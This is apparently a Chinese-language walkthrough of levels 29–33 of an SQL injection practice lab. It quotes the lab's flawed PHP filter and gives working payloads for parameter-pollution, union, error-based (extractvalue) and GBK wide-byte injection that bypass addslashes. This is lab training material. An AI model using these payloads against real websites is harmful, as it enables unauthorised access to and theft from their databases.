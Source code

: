 # 29-33
## 第二十九关
该关有index.php，login.php
index.php没有waf,可以直接sql注入出数据
login.php有waf
waf只能允许输入数字，不过该关，会有两次接收id参数值
```
if(isset($_GET['id']))
{
	$qs = $_SERVER['QUERY_STRING'];
	$hint=$qs;
	$id1=java_implimentation($qs);
	$id=$_GET['id'];

function java_implimentation($query_string)
{
	$q_s = $query_string;
	$qs_array= explode("&",$q_s);
	foreach($qs_array as $key => $value)
	{
		$val=substr($value,0,2);
		if($val=="id")
		{
			$id_value=substr($value,3,30); 
			return $id_value;
			echo "<br>";
			break;
		}

	}

}
```
`$_SERVER['QUERY_STRING']`是一个 PHP 超全局变量，用于获取当前请求的查询字符串部分。
该关只会校验，第一次输入的id值，因此可以在第一个id值输入数字，在第二个id值中进行sql注入
第二个id值没有进行任何过滤，通过尝试为字符型注入，因此直接注入即可。
```
?id=1&id=1%27order%20by%204--+
?id=-1&id=1%27union select 1,database(),3--+
```
报错注入也可
```
?id=1&id=-1%27and%20extractvalue(1,concat(0x7e,database(),0x7e))--+
```
## 第三十关
通过查看源码发现，login.php该关和上一关相同，仅使用`""`将变量进行包裹
index.php不会有任何信息(虽然没有进行任何过滤)
```
?id=1&id=1"order%20by%204--+
?id=1&id=1111"union%20select%201,database(),2--+
?id=1&id=-1"and%20extractvalue(1,concat(0x7e,database(),0x7e))--+
```
## 第三十一关
该关和上一关相同，稍微进行了更改，使用`("")`将变量进行包裹，闭合即可
```
?id=1&id=1")order%20by%204--+
?id=1&id=1111")union%20select%201,database(),2--+
?id=1&id=-1")and%20extractvalue(1,concat(0x7e,database(),0x7e))--+
```
## 第三十二关
通过查看源码发现，该关过滤了`\,/,',"`会用`\`进行转义
`mysql_query("SET NAMES gbk");`且使用gbk编码连接数据库，但是后端采用utf-8进行编码，猜测可以采用宽字节注入
将`%27`替换成`%df%27`
```
?id=1%df%27%20order%20by%204%20--+
?id=1111%df%27%20union%20select%201,database(),3--+
?id=1111%df%27and%20%20extractvalue(1,concat(0x7e,database(),0x7e))--+
```
## 第三十三关
该关使用addslashes()函数对数据进行转义，需要转义的添加`\`
和上一关完全相同
```
?id=1%df%27%20order%20by%204--+
?id=1111%df%27%20union%20select%201,database(),3--+
?id=1111%df%27and%20%20extractvalue(1,concat(0x7e,database(),0x7e))--+
```

